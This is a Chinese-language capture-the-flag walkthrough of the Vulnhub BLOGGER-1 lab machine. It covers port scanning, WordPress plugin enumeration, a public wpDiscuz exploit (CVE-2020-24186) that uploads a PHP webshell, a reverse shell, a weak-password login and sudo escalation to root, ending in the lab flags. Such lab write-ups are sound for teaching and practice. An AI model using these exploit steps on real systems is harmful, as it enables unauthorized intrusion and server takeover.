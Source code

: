 ```yaml
---

title: Vulnhub	675 BLOGGER-1

---
```

考点：wpscan,WPDiscuz,base64

靶机链接：<https://www.vulnhub.com/entry/blogger-1,675/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| BLOGGER-1  | 10.0.2.15 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.15
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### WEB测试

#### dirsearch

发现`/assets/`目录，点了点几个目录，发现wordpress

![1](https://static.iihack.com/vulnhub/675/1.jpg)

绑定域名

![2](https://static.iihack.com/vulnhub/675/2.jpg)

#### wpscan

默认参数扫描发现无插件信息，只好穷举插件了

```bash
$ wpscan --url http://10.0.2.15/assets/fonts/blog/ --plugins-detection aggressive
```

![3](https://static.iihack.com/vulnhub/675/3.jpg)

发现`wpdiscuz`插件

## 获得权限

![4](https://static.iihack.com/vulnhub/675/4.jpg)

```bash
$ searchsploit wpdiscuz
$ searchsploit -m php/webapps/49967.py
$ python 49967.py -u http://10.0.2.15/assets/fonts/blog/ -p /?p=29
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[59453] | code:[200]
[!] Got wmuSecurity value: a79c058f94
[!] Got wmuSecurity value: 29 

[+] Generating random name for Webshell...
[!] Generated webshell name: aoixhruomuxeias

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/aoixhruomuxeias-1663424364.4294.php&quot; 
```

![5](https://static.iihack.com/vulnhub/675/5.jpg)

本地监听，下载反弹shell并访问，获得反弹shell，`/home`获得三个用户

尝试弱口令，发现`vagrant`密码就是`vagrant`

![6](https://static.iihack.com/vulnhub/675/6.jpg)


## 提权

执行`sudo -l`发现`vagrant`可直接切`root`

![7](https://static.iihack.com/vulnhub/675/7.jpg)

### 小彩蛋

```bash
# cat root.txt|base64 -d
cat root.txt|base64 -d
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
/root/

# cat user.txt|base64 -d
cat user.txt|base64 -d
flag{Y0u_D!D_17 :)}
```

